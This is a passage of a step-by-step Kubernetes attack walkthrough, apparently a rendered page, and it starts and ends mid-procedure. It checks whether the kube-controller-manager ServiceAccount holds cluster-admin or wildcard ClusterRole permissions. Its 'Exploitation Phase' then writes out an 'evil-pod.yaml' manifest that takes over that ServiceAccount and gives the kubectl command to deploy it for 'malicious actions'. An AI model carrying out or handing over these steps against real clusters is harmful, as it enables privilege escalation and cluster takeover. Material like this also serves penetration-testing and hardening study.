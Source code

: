 ```
kube-controller-manager                                    ClusterRole/cluster-admin                                      10d
```

**Why:** To determine what permissions are assigned to the controller manager's ServiceAccount.  A `cluster-admin` binding is a clear indicator of excessive permissions.

**Step 4: (If a custom ClusterRole is found) Inspect the ClusterRole.**

```bash
kubectl describe clusterrole <clusterrole-name>
```

**Explanation:**  If the previous step revealed a custom ClusterRole bound to the controller manager's ServiceAccount (instead of `cluster-admin`), replace `<clusterrole-name>` with the actual name and describe the ClusterRole to examine its permissions.

**Expected Output:**  Detailed information about the ClusterRole, including the API groups, resources, and verbs that it grants access to.  Look for wildcard permissions like `resources: ["*"]` and `verbs: ["*"]`.

**Why:** To understand the exact permissions granted by the custom ClusterRole.

**Exploitation Phase:**

The exploitation phase relies on impersonating the controller manager's ServiceAccount and then using those privileges to perform malicious actions.

**Step 5: Create a temporary pod using the controller manager's ServiceAccount.**

This requires a manifest file.  Create a file named `evil-pod.yaml` with the following content:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  namespace: default
spec:
  serviceAccountName: kube-controller-manager # IMPORTANT: Use the controller manager's ServiceAccount
  containers:
  - name: evil-container
    image: ubuntu:latest
    command: ["/bin/bash", "-c", "sleep 3600"]
  restartPolicy: Never
```

**Explanation:** This YAML file defines a simple pod named "evil-pod" in the "default" namespace.  The crucial part is `serviceAccountName: kube-controller-manager`, which tells Kubernetes to use the controller manager's ServiceAccount for this pod. The container runs a simple `sleep` command to keep it alive.  **Important**: Replace `kube-controller-manager` with the actual ServiceAccount name discovered earlier if it is different.

**Step 6: Deploy the evil pod.**

```bash
kubectl apply -f evil-pod.yaml
```

